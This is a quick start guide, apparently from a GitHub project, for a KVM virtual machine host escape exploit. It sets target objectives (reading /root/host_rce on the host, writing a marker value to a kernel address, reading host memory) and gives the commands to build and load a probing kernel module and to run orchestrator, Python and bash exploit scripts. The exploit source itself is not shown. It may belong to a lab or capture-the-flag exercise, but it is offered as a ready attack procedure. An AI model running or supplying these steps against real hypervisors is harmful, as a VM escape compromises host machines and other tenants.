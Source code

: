 # KVM Host Escape Exploitation - Quick Start Guide

## 🎯 Objectives

| Objective | Target | Action | Iterations |
|-----------|--------|--------|------------|
| **A** | `/root/host_rce` (HOST) | Read file from host filesystem | - |
| **B** | `0xffffffff826279a8` | Write `0xdeadbeef41424344` | 250,000 |
| **C** | `0xffffffff82b5ee10` | Read host memory | 50k-100k |

## 📋 Prerequisites

```bash
# 1. Compile kernel module
cd /path/to/exploit
make

# 2. Compile userspace prober
gcc -o kvm_prober kvm_prober.c

# 3. Load kernel module
sudo insmod kvm_probe_drv.ko

# 4. Verify device exists
ls -la /dev/kvm_probe_*
```

## 🚀 Quick Execution

### Method 1: Master Orchestrator (Recommended)
```bash
sudo ./exploit_orchestrator.sh
```

This will:
- Run pre-flight checks
- Execute all objectives automatically
- Generate detailed logs
- Provide comprehensive summary

### Method 2: Python Exploit
```bash
sudo python3 targeted_host_escape.py
```

### Method 3: Bash Script
```bash
sudo ./advanced_mmio_scanner.sh
```
